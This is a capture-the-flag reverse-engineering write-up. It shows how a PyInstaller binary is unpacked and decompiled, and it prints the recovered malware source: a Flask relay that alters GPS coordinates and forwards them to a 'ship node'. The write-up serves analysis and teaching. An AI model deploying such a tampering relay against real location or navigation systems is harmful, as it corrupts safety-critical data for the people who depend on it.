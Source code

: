 # I Love Reversing

### 1. Run DiEC tools on infect.exe

![img0.png](img0.png)

From the output, the binary was compiled and packed with PyInstaller. In order to reverse engineer the binary, we have to utilize a tool the contents of a PyInstaller compiled executlable file. The tool used is [**pyinstxtractor**](https://github.com/extremecoders-re/pyinstxtractor) which is available in Github
### 2. Run pyinstxtractor with the binary
![img1.png](img1.png)

After running it, there will be extracted pyc file used in the executable and collected in a directory named infect.exe_extracted. Within the directory, we can find out the infect.pyc. Next, we have to decompile the pyc to python source code file in order to understand the behavior.

### 3. Decompile infect.pyc with PyLingual

![img2.png](img2.png)

With using infected.pyc, we chunk it into **PyLingual** (Online Python Decompiler) to view the source code. It will then look like this upon successfully decompiled.

![img3.png](img3.png)

And here is the source code infect.py code:
```python
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: infect.py
# Bytecode version: 3.12.0rc2 (3531)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)
import requests
from flask import Flask, request, jsonify
app = Flask(__name__)
def infect(location_data):
	location_data['latitude'] += 2.593627
	location_data['longitude'] += 2.593627
	return location_data

@app.route('/location_data', methods=['POST'])
def location_data():
	location_data = request.json
	print('Received data from attack instruction PC:', location_data)
	location_data = infect(location_data)
	url = 'http://192.168.101.101:4653/location_data'
	response = requests.post(url, json=location_data)
	print('Response from ship node:', response.text)
	return jsonify({'message': 'Data forwarded to ship node successfully!'})

if __name__ == '__main__':
app.run(host='0.0.0.0', port=4653)
```

This python script serves as a malware web server which runs a flask web server that accepts POST request with JSON payloads. It infects the input data by adding 2.593627 to the GPS latitude and longitude values. Therefore, we got the flag which is `FLAG{2.593627}`
